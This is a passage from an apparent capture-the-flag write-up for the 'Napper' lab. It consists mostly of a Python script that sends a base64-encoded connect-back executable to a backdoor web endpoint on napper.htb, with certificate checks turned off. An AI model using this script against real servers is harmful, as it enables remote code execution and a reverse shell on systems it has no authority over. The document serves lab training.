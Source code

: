 ![image17](../resources/4592e9051ac14d53978aab36ef0824fc.png)

**<u>Naplistener.py script:</u>**

```python
import requests
from requests.auth import HTTPBasicAuth
from urllib3.exceptions import InsecureRequestWarning

# Disable insecure request warnings
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

host = "napper.htb"
payload = """<Base64 ConnectBack.exe>"""
form_field = f"sdafwe3rwe23={requests.utils.quote(payload)}"
url_ssl = f"https://{host}/ews/MSExgHealthCheckd/"

# Replace 'username' and 'password' with credentials
username = 'example'
password = 'ExamplePassword'

try:
    # Removed - not needed - Include the auth parameter with HTTPBasicAuth for Basic Authentication
    # , auth=HTTPBasicAuth(username, password)
    r_ssl = requests.post(url_ssl, data=form_field, verify=False)
    print(f"{url_ssl} : {r_ssl.status_code} {r_ssl.headers}")
except KeyboardInterrupt:
    exit()
except Exception as e:
    print(e)
    pass
```
\*Paste the copied base64 code into the payload variable
